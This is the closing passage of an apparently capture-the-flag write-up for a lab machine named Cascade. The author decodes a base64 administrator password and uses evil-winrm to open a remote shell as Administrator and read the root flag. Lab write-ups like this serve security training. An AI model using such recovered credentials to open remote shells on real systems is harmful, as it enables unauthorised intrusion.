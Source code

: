 We decode this and we get the final passowrd for the admininstrator.

```bash
➜  cascade echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

```bash
➜  cascade evil-winrm -i cascade.htb -u Administrator -p baCT3r1aN00dles                                   

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
3f3bb569d2{...}
```

Thanks for reading hope you enjoyed!

